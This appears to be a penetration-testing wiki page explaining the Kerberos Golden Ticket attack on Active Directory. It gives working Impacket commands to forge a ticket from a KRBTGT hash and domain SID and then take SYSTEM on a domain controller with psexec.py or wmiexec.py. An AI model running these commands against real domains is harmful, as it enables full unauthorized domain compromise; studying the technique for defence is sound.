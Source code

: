 # Golden Ticket

## Attack Description

In an Active Directory domain, every domain controller runs a KDC (Kerberos Distribution Center) service that processes all requests for tickets to Kerberos. Each Active Directory domain has an associated KRBTGT account that is used to encrypt and sign all Kerberos tickets for the domain. The KRBTGT account is a local default account that acts as a service account for the KDC service.

Windows Server Kerberos authentication is achieved by the use of a special Kerberos Ticket-Granting Ticket (TGT) enciphered with a symmetric key. This key is derived from the password of the server or service to which access is requested. The TGT password of the KRBTGT account is known only by the Kerberos service. In order to request a session ticket, the TGT must be presented to the KDC. The TGT is issued to the Kerberos client from the KDC.

The Ticket-Granting Service (TGS) issues tickets for admission to computers in its own domain or for admission to the TGS in another domain. When clients want access to a computer, they contact the ticket-granting service in the target computer's domain, present a TGT, and ask for a ticket to the computer. The ticket can be reused until it expires, but the first access to any computer always requires a trip to the ticket-granting service in the target computer's account domain. A TGS exchange is initiated when a client sends the KDC a KRB\_TGS\_REQ message.

A Golden Ticket is a forged TGT that is created using the KRBTGT account password hash. Since the TGT is encrypted/signed by the domain’s KRBTGT account, it is trusted by default by all computers in the domain. With the Golden ticket, an attacker can impersonate any user and access any resource in the domain.

Below is a diagram which shows the process used to obtain access to a resource on the domain using a Golden Ticket:

![Source: https://adsecurity.org/?p=1515](../../.gitbook/assets/kerberos\_goldenticket1.JPG)

## Attack Requirements

&#x20;In order to complete this attack, we need to do the following, and so any tool that can assist with providing the following functionality can be used:

* Gain access to the domain KRBTGT Account NTLM password hash
* Find the Domain Name
* Find the Domain SID
* A username to impersonate

## Attack Tools

The list of tools below contains some of the tools that can be used for this attack. Note that some of the listed tools do the same thing, and so it's down to user preference as to which tools are used.

### Tools:

ticketer.py (Impacket) --> Creates Kerberos golden/silver tickets

psexec.py (Impacket) --> PSEXEC like functionality example using RemComSvc

wmiexec.py (Impacket) --> Executes a semi-interactive shell using Windows Management Instrumentation

mimikatz -->&#x20;

## Attack Example

### Discovery

This article assumes that we already have the KRBTGT hashes, which can be ontained via the following methods:

* DCSync (Mimikatz)&#x20;
* LSA (Mimikatz)&#x20;
* Hashdump (Meterpreter)&#x20;
* NTDS.DIT&#x20;
* DCSync (Kiwi)

Get the domain name and domain SID:

```
Get-ADDomain
```

### Exploit with Impacket

Use ticketer.py to generate the forged ticket:

```
ticketer.py -nthash 555cd976cc897e603aad3a55d15691a6 -domain-sid S-1-5-21-9572663084-452016999-1251370121 -domain testdomain.local Administrator
```

Add the ticket as an environment variable as per the options for psexec.py/wmiexec.py:

```
export KRB5CCNAME=Administrator.ccache
```

Connect to the target DC using the forged ticket:

psexec.py:

> This will get you SYSTEM on the target

```
psexec.py testdomain.local/Administrator@dc1.testdomain.local -k -no-pass
```

wmiexec.py:

> This will get you Administrator on the target

```
wmiexec.py testdomain.local/Administrator@dc1.testdomain.local -k -no-pass
```

### Exploit with Mimikatz

To be added...



## References

{% embed url="https://attack.mitre.org/techniques/T1558/001" %}

{% embed url="https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-kile/e720dd17-0703-4ce4-ab66-7ccf2d72c579" %}

{% embed url="https://pentestlab.blog/tag/krbtgt" %}

{% embed url="https://adsecurity.org/?p=483" %}

{% embed url="https://adsecurity.org/?p=1515" %}
